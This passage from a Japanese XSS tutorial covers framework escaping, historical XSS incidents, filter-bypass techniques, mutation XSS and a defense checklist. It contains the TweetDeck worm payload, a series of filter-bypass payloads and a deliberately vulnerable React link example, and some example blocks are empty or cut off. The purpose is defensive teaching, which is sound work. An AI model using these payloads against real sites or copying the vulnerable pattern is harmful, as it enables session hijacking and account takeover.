Vue.jsも二重中括弧（`{{ }}`）によるテキスト補間でHTMLエスケープを自動適用する。

```html
<template>
  <!-- Auto-escaped: safe by default -->
  <p>{{ userInput }}</p>

  <!-- v-html directive: bypasses escaping — use with caution -->
  <div v-html="sanitizedHtml"></div>
</template>

<script>
import DOMPurify from 'dompurify';

export default {
  props: ['rawHtml'],
  computed: {
    sanitizedHtml() {
      // Always sanitize before using v-html
      return DOMPurify.sanitize(this.rawHtml);
    }
  }
}
</script>
```

### 6.4 サーバーサイドテンプレートエンジン

サーバーサイドのテンプレートエンジンも多くがデフォルトでHTMLエスケープを提供する。

| テンプレートエンジン | 自動エスケープ構文 | エスケープなし構文 |
|-------------------|-----------------|-----------------|
| Jinja2（Python） | `{{ value }}` | `{{ value\|safe }}` |
| ERB（Ruby） | `<%= value %>` | `<%== value %>` |
| Blade（PHP/Laravel） | `{{ $value }}` | `{!! $value !!}` |
| Thymeleaf（Java） | `th:text` | `th:utext` |
| Go html/template | `{{ .Value }}` | `template.HTML()` |

### 6.5 フレームワーク保護の落とし穴

フレームワークのデフォルトの保護は強力だが、以下の場面では無力である。

1. **明示的なエスケープバイパス**: `dangerouslySetInnerHTML`、`v-html`、`bypassSecurityTrustHtml` 等
2. **URLスキームの注入**: `<a href={userInput}>` で `javascript:alert(1)` が注入される場合、HTMLエスケープでは防げない
3. **サーバーサイドレンダリング（SSR）**: SSRの過程でフレームワークの保護が適用されない場合がある
4. **`eval()` や `Function()` の使用**: 動的コード実行はフレームワークの保護範囲外

```jsx
// VULNERABLE: href attribute with user input (React)
function UserLink({ url }) {
  // If url is "javascript:alert(1)", clicking the link executes JS
  return <a href={url}>Click here</a>;
}

// SECURE: Validate URL scheme
function SafeUserLink({ url }) {
  const safeUrl = url.startsWith('https://') || url.startsWith('http://')
    ? url
    : '#';
  return <a href={safeUrl}>Click here</a>;
}
```

## 7. 実際に発生した重大なXSSインシデント

### 7.1 Samy Worm（2005年）

Samy Wormは、史上最も有名なXSSワームであり、XSSの破壊力を世界に知らしめた事件である。

**事件の概要**: 2005年10月、Samy Kamkar（当時19歳）がMySpaceのプロフィールページにStored XSSを仕込んだ。このワームは、感染したプロフィールを閲覧したユーザーのプロフィールにも自身を複製し、さらにSamyのアカウントを自動的にフレンドに追加した。

**技術的詳細**: MySpaceはHTMLタグのフィルタリングを行っていたが、CSSの `style` 属性内に `javascript:` スキームを使用するなど、複数のフィルタリング回避手法を組み合わせることでXSSが成立した。具体的には以下のような手法が用いられた。

- `<div>` タグの `style` 属性内に `background:url('javascript:...')` を埋め込み
- `innerHTML` を使用してDOMを操作し、自己複製コードを注入
- MySpaceのフィルタリングが `"javascript"` という文字列を一括で検出していたため、`"java\nscript"` のように改行を挿入してバイパス

**被害規模**: わずか20時間で100万人以上のユーザーに感染し、MySpaceは一時的にサービスを停止してワームの除去を行った。Samy Kamkarは後に連邦捜査の対象となり、社会奉仕活動の刑を受けた。

**教訓**: ブラックリスト方式のフィルタリングの限界が明確に示された。攻撃者はフィルタリングの実装を分析し、巧妙にバイパスする手法を見つけ出す。また、Stored XSSが自己複製機能を持つ場合、被害は指数関数的に拡大することが実証された。

### 7.2 TweetDeck XSS（2014年）

**事件の概要**: 2014年6月、Twitter公式クライアントであるTweetDeckにStored XSSの脆弱性が発見された。特定の文字列を含むツイートが、TweetDeckユーザーのブラウザ上で任意のJavaScriptを実行できた。

**攻撃の詳細**: TweetDeckはツイートの表示時にHTMLエンコーディングを適切に行っていなかった。あるセキュリティ研究者がこの脆弱性を発見し、以下のようなツイートを投稿した。

```
<script class="xss">$('.xss').parents().eq(1).find('a').eq(1).click();$('[data-action=retweet]').click();alert('XSS in TweetDeck')</script>
```

このスクリプトは、自動的にリツイートボタンをクリックするコードを含んでいた。つまり、TweetDeckでこのツイートを表示したユーザーは自動的にこのツイートをリツイートし、それがさらに他のTweetDeckユーザーに伝播するというワーム的動作を示した。

**被害規模**: 数時間で約8万件以上のリツイートを記録した。Twitterは緊急でTweetDeckサービスを一時停止し、脆弱性を修正した。

**教訓**: 大手テック企業のプロダクトであっても、基本的な出力エンコーディングの欠如によりXSSが発生し得ることが示された。また、SNSプラットフォーム上のXSSは自己伝播するワームとなり得る点で、特に危険度が高い。

### 7.3 British Airways XSS / Magecart攻撃（2018年）

**事件の概要**: 2018年、British Airwaysのウェブサイトに悪意あるJavaScriptが注入され、約38万件のクレジットカード情報が窃取された。厳密にはサプライチェーン攻撃（Magecart）であるが、攻撃の実行メカニズムはXSSの原理に基づいていた。

**技術的詳細**: 攻撃者はBritish Airwaysのサイトに読み込まれるサードパーティのJavaScriptライブラリを改ざんし、決済ページで入力されるクレジットカード情報をキャプチャして外部のサーバーに送信するスクリプトを埋め込んだ。

**被害規模**: 約38万人の顧客の氏名、カード番号、有効期限、CVV（セキュリティコード）が漏洩した。British AirwaysはGDPR（EU一般データ保護規則）に基づき、約2000万ポンド（約30億円）の罰金を科された。

**教訓**: サードパーティスクリプトの管理の重要性と、Subresource Integrity（SRI）やCSPの必要性が再認識された。

### 7.4 その他の著名なインシデント

- **Yahoo! Mail XSS（2013年）**: Yahoo! Mailに発見されたStored XSSにより、メールを開くだけでセッションが乗っ取られる脆弱性が存在した
- **eBay XSS（2015-2016年）**: 出品ページのHTMLフィールドを通じたStored XSSが繰り返し発見された
- **Steam XSS（2019年）**: Steamプロフィールページに存在したStored XSSにより、ユーザーのアカウントが乗っ取られる可能性があった

## 8. 高度なXSS攻撃技法

### 8.1 XSSフィルタバイパス

多くのWebアプリケーションやWAFがXSSフィルタリングを実装しているが、攻撃者はさまざまな手法でこれらを回避する。

**ケース1: 大文字小文字の混合**

```html
<!-- Filter checks for <script> but not case variations -->
<ScRiPt>alert(1)</ScRiPt>
```

**ケース2: タグの分割・不正形式**

```html
<!-- Malformed tags that browsers still interpret -->

```

**ケース3: イベントハンドラの利用**

```html
<!-- Many HTML elements support event handlers -->
<body onload=alert(1)>
<input onfocus=alert(1) autofocus>
<marquee onstart=alert(1)>
<details open ontoggle=alert(1)>
```

**ケース4: エンコーディングの悪用**

```html
<!-- HTML entity encoding -->


<!-- Unicode escapes in JavaScript context -->
<script>\u0061\u006c\u0065\u0072\u0074(1)</script>

<!-- URL encoding in href -->
<a href="javascript:%61%6c%65%72%74(1)">click</a>
```

**ケース5: DOM Clobbering**

HTML要素の `id` や `name` 属性を利用して、JavaScriptのグローバル変数を上書きする手法である。

```html
<!-- DOM Clobbering: override expected global variables -->
<form id="document"><input name="cookie" value="fake"></form>
<!-- Now document.cookie returns the input element, not the real cookie -->
```

### 8.2 ミューテーションXSS（mXSS）

ミューテーションXSSは、ブラウザのHTML解析器の挙動の違いを悪用する高度な攻撃手法である。サニタイザが処理した時点では無害なHTMLが、ブラウザが再解析する際にDOMの「変異（mutation）」が起こり、有効なスクリプトに変化する。

```html
<!-- After sanitization, this appears safe -->
<svg><style>

<!-- But the browser's HTML parser mutates it during rendering,
     causing the onerror handler to execute -->
```

これはサニタイザの実装とブラウザのHTML解析器の挙動の差異を突く攻撃であり、防御が極めて難しい。DOMPurifyなどの成熟したサニタイザライブラリは既知のmXSSパターンへの対策を含んでいるが、完全な防御は困難であり、CSPとの多層防御が重要になる。

## 9. XSS対策の実践的チェックリスト

XSSに対する包括的な防御を実現するために、以下のチェックリストを活用できる。

```
[出力エンコーディング]
□ すべてのユーザー入力に対して、コンテキストに応じた出力エンコーディングを適用している
□ HTMLコンテキスト、JavaScript コンテキスト、URLコンテキスト、CSSコンテキストを区別している
□ テンプレートエンジンのデフォルトの自動エスケープ機能を活用している
□ エスケープバイパス機能（dangerouslySetInnerHTML等）の使用箇所をすべて把握・監査している

[入力検証]
□ ホワイトリスト方式で入力値の形式を制限している
□ リッチテキスト入力にはDOMPurify等の成熟したサニタイザを使用している
□ ブラックリスト方式のフィルタリングに依存していない

[HTTPヘッダー]
□ Content Security Policy（CSP）を設定している
□ nonceまたはhashベースのCSPを使用し、'unsafe-inline' を避けている
□ X-Content-Type-Options: nosniff を設定している
□ セッションCookieに HttpOnly, Secure, SameSite 属性を設定している

[DOM操作]
□ innerHTML の使用を最小限に抑え、textContent を優先している
□ eval(), Function(), setTimeout(string) の使用を禁止している
□ 可能であればTrusted Typesを有効化している
□ URLスキーム（javascript:, data:）の検証を行っている

[テストと監査]
□ 定期的にXSS脆弱性スキャンを実施している
□ コードレビューでXSS対策を確認するプロセスがある
□ 新機能開発時にXSSの脅威モデリングを行っている
□ バグバウンティプログラムを検討している

[サードパーティ]
□ 外部JavaScriptライブラリの読み込みにSubresource Integrity（SRI）を使用している
□ サードパーティスクリプトの数と権限を最小限に保っている
□ npm等のパッケージの依存関係を定期的に監査している
```

## 10. XSSの現在と今後

### 10.1 XSSは「解決済み」の問題か

フレームワークの自動エスケープ、CSP、Trusted Typesなどの技術により、XSS対策は確実に進歩している。しかし、XSSが「解決済み」の問題かと言えば、答えは否である。

**なぜXSSは消えないのか**:

1. **レガシーコードの存在**: 自動エスケープ機能を持たない古いフレームワークやテンプレートエンジンで構築されたシステムは依然として大量に存在する
2. **エスケープバイパスの使用**: `dangerouslySetInnerHTML` や `v-html` など、正当な理由でエスケープをバイパスする場面は避けられない
3. **DOM-based XSSの複雑さ**: SPAの普及に伴い、クライアントサイドのJavaScriptが複雑化し、DOM-based XSSのリスクが増大している
4. **サードパーティスクリプト**: 広告、アナリティクス、ソーシャルウィジェットなど、サードパーティのJavaScriptがXSSの攻撃面を拡大している
5. **新しい攻撃面**: Web Components、Service Workers、WebAssemblyなど、新しいWeb技術が新たなXSSの攻撃面を生む可能性がある

### 10.2 今後の方向性

**Trusted Typesの標準化と普及**: Trusted TypesはDOM-based XSSを根本的に防止するための有力なアプローチであり、今後より多くのブラウザでサポートされることが期待される。

**CSPの進化**: CSP Level 3の策定が進んでおり、より柔軟で強力なポリシー制御が可能になりつつある。`'strict-dynamic'` や nonce/hashベースのアプローチにより、CSPの運用コストも低下している。

**コンパイラ・ビルドツールの進化**: ビルド時にXSSの脆弱性を静的解析で検出するツール（ESLintプラグイン、Semgrep等）の精度が向上している。

**Sanitizer API**: ブラウザ組み込みのHTML Sanitizer APIの標準化が進んでおり、DOMPurifyなどのサードパーティライブラリに頼らずにHTMLのサニタイズが可能になる将来が見込まれる。

## 11. まとめ

XSSは、Webの根本的な設計——HTMLドキュメント内でのスクリプト実行——に起因する脆弱性であり、四半世紀以上にわたりWebセキュリティの最大の脅威であり続けている。

その本質は「信頼できないデータが、信頼できるコードとして実行される」ことにある。三つの類型（Reflected、Stored、DOM-based）はそれぞれ異なるメカニズムを持つが、根本原因は共通している。ユーザーからの入力が、適切な処理なしにHTMLやJavaScriptのコンテキストに挿入されることである。

防御の要は**出力エンコーディング**であり、すべてのユーザー入力をHTMLに埋め込む際にコンテキストに応じたエスケープを行うことが最も基本的かつ効果的な対策である。これに加えて、CSP、HttpOnly Cookie、Trusted Types、入力検証を組み合わせた多層防御が推奨される。

現代のフレームワーク（React、Angular、Vue.js）はデフォルトでHTMLエスケープを適用するが、`dangerouslySetInnerHTML` や `v-html` など、エスケープをバイパスする手段が存在する以上、XSSに対する意識と知識は依然として不可欠である。

XSS対策は「完璧な一つの手法」ではなく、「複数の不完全な手法の組み合わせ」によって実現される。出力エンコーディング、CSP、HttpOnly、Trusted Types——これらのどれも単独では完全ではないが、多層的に組み合わせることで、攻撃者がXSSを成功させるハードルを極めて高くすることができる。Webアプリケーションを開発する者にとって、XSSの理解と対策は最も基本的かつ重要な責務の一つである。
